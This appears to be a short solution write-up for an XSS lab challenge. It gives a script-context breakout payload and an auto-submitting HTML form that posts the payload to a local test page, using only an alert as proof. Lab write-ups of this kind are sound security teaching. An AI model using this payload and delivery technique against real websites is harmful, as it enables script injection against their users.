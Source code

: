 # Challenge 1
Solution and further references for *challenge 1*.

<details>
 <summary>Spoiler: Solution for challenge 1</summary>

**Payload**:
```html
</script><script>alert(document.domain)//
```

**Exploit**:
```html
<html>
  <body>
    <form action="http://127.0.0.1/challenge1.php" method="POST" id="attackForm">
      <input type="hidden" name="q" value="&lt;&#47;script&gt;&lt;script&gt;alert&#40;document&#46;domain&#41;&#47;&#47;" />
      <input type="submit" value="Submit request" />
    </form>
 <script>attackForm.submit()</script>
  </body>
</html>
```
</details>

## References
Additional information:
* https://github.com/w3c/html/issues/1617#issuecomment-418205892